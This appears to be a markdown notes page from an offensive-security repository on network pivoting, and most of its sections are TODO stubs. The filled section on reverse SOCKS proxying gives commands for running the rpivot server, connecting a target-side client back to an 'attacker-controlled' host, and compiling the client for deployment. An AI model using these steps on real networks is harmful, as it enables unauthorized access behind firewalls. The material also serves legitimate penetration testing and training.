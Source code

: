 # Network

This page has tips and snippets for basic network navigation and exploitation.

## ARP Spoofing

TODO

## Proxying Around

### Port Forwarding

TODO: normal ssh portforwards

### SOCKS Proxying

TODO

### UDP Redirection

TODO: https://blog.cobaltstrike.com/2021/03/11/simple-dns-redirectors-for-cobalt-strike/

### Reverse SOCKS Proxying

TODO: OpenSSH 7.6+ `ssh -R`

Sometimes you end up on a box without credentials or any other of "forward" dynamic-proxying through it (through traditional `ssh -D` methods). In these cases, the [rpivot](https://github.com/klsecservices/rpivot) project is insanely useful. Think of it like a "reverse" `ssh -D`.

It uses a client-server architecture, and only supports Python 2.6/2.7. On your attack machine, download and run the server:

```sh
# Download and package both the client and server into a zip file; allows for easier deployment.
cd /opt && git clone https://github.com/klsecservices/rpivot && cd rpivot
zip rpivot.zip -r *.py ./ntlm_auth/

# Run the server on your attack machine.
python rpivot.zip server --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9050
```

Then transfer the built `rpivot.zip` file to the target and connect the client back to the server:

```sh
# Connect back to attacker-controlled server at 10.10.10.10.
python rpivot.zip client --server-ip 10.10.10.10 --server-port 9999
```

You should now be able to use `proxychains` (or another SOCKS4 proxy client) to tunnel through the machine where you ran the client.

If you need to deploy the `rpivot` client to a target without Python, compile it into a standalone binary with [PyInstaller](https://www.pyinstaller.org/):

```sh
cd /opt/rpivot
pyinstaller -F client.py
file dist/client
```

The same can be done with the server, if necessary.
